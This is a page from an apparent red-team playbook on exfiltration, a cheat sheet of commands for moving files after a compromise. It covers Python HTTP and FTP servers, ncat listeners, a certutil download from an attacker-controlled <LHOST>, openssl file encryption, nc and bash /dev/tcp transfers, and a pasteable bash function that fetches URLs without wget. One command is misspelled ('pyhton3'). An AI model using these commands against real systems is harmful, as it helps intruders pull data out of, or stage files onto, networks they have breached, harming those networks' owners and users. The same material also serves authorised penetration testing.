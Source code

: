 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [Ncat](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Ncat)
  - [File Encryption / Decryption](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Encryption--Decryption)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)
  - [wget Replacement in Bash]()

### File Transfer

#### Python SimpleHTTPServer

```c
$ python -m SimpleHTTPServer <LPORT>
```

#### Python3 HTTP Server

```c
$ pyhton3 -m http.server <LPORT>
```

#### Simple FTP Server

```c
$ python -m pyftpdlib -p 21 --write
```

#### Certutil

##### Base64 Encoding

```c
C:\> certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
C:\> certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### Ncat

```c
$ ncat --ssl -lnvp <LPORT>
```

#### File Encryption / Decryption

##### Encryption

```c
$ openssl enc -aes-256-cbc -pbkdf2 < <FILE> > <FILE>.enc
```

##### Decryption

```c
$ openssl enc -d -aes-256-cbc -pbkdf2 < <FILE>.enc > <FILE>
```

#### Transfering Files with Bash

```c
$ nc -lnvp <LPORT> < <FILE>
```

```c
$ bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

#### wget Replacement in Bash

Copy the following script directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
